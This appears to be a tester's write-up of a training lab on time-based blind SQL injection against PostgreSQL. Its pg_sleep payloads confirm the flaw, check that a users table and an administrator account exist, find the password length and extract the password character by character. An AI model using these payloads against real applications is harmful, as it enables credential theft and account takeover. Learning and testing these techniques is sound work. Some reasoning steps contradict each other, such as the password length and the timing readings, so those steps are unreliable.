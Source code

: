 ```
' || (select pg_sleep(10))--
```
Confirm that it has time based sql injection since it repsonse in 10,000 milisecond

Confirm that the users table exists in the database
When 1=1 than sleep for 10 seconds else don't sleep at all. Used end to end the if else statement
```
' || (select case when (1=1) then pg_sleep(10) else pg_sleep(-1) end)--
```

Testing if case is false (shouldn't sleep)
```
' || (select case when (1=0) then pg_sleep(10) else pg_sleep(-1) end)--
```


Check if user table exist in database 
Confirm that the user table exist and the administrator username exist in the users table. If the condition is true than you will get a 10 second delay if not than it won't sleep 
```
' || (select case when (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)--
```

To find the password we need to find out the length first 
```
' || (select case when (username='administrator' and length(password)>25) then pg_sleep(10) else pg_sleep(-1) end from users)--
```

Disable resource pool or else it going to mess up our time based sql injection 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/7c51e583-9762-434b-8013-25bdb85b5f5f)




Response completed in 10 milliseconds which show that out case statement is true so the password is 20 characters 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/57cab11a-ebea-4e53-a256-970309451ea2)

We have length now we need to enumerate the password 

```
' || (select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from users)--
```


10 second response on letter r
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/847029b9-3da2-4cb2-aa91-644fa4406c44)



Finding whole password
Filter by response received and load up on excel and order by least to greatest to get password
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/14dbfd43-443a-4a17-ac00-7e8afd9780cc)



